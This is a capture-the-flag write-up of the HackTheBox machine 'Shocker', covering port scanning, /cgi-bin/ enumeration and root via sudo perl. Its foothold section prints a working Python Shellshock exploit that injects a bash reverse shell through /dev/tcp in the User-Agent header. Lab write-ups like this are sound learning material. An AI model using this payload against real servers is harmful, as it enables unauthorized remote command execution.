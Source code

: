# HackTheBox - Shocker Writeup


Box author | {{< person url="https://app.hackthebox.com/users/2984" name="mrb3n" picture="https://www.hackthebox.com/storage/avatars/adb3d560986d35b4fdd9605bae289ea9.png" >}}

<!--more-->

## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

## Http: don't bug me!
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.

![don't bug me](dont-bug-me.png "don't bug me")

### Gobuster
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.

![forbidden /cgi-bin/](cgi-bin.png "forbidden /cgi-bin/")

Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.

![gobuster](gobuster-cgi-bin.png "gobuster")

The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.

![gobuster user.sh](gobuster-cgi-bin-user-sh.png "gobuster user.sh")

### Http: /Cgi-Bin/User.sh
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)

![contents user.sh](read-the-file-user-sh.png "contents user.sh")

## Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

## PrivEsc: Perl
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!

![become root](root.png "become root")

VOILA
